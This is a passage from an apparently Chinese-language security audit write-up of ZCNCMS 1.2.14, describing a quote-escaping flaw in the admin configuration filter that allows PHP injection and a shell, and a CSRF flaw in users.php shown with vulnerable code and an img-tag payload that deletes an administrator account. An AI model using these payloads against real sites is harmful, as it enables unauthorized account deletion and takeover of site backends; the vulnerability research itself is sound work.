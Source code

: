 后台修改配置处过滤的核心代码如上所示，可以利用反斜线转义引号，插入php代码成功getshell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010f2047ce9e4a7d95.png)

### <a class="reference-link" name="CSRF%E4%BB%BB%E6%84%8F%E7%AE%A1%E7%90%86%E5%91%98%E8%B4%A6%E6%88%B7%E5%88%A0%E9%99%A4"></a>CSRF任意管理员账户删除

```
//users.php
switch($a)
`{`

    ......

    case 'del'://
        $ids = array();
        if(isset($id))`{`
            if(is_array($id))`{`
                $ids = $id;
            `}` else `{`
                $ids[] = $id;
            `}`

        `}` else `{`
            errorinfo('变量错误','');
        `}`
        foreach($ids as $key=&gt;$value)`{`
            $value = intval($value);
            if($value &lt;= 0)`{`
                    errorinfo('变量错误','');
            `}`
        `}`
        if($users-&gt;Del($ids))`{`
            errorinfo('删除成功','');
        `}`else`{`
            errorinfo('删除失败','');
        `}` 
        break;

    ......

`}`
```

通过get方式传参，并且没有验证referer和token。简单利用如下：

```
//payload
&lt;img src="http://localhost/zcncms-1.2.14/zcncms/admin/?c=users&amp;a=del&amp;id=12" &gt;
```



## 总结

一定还存在其他漏洞，但是考虑时间和利弊就暂时审计这些，起初目的就是找个进后台的办法，已经实现即可。审计和学习已有漏洞时遇到的最大问题是，当时对SQL注入ids绕过存在很多细节性的问题，还好在写文章时想通了。
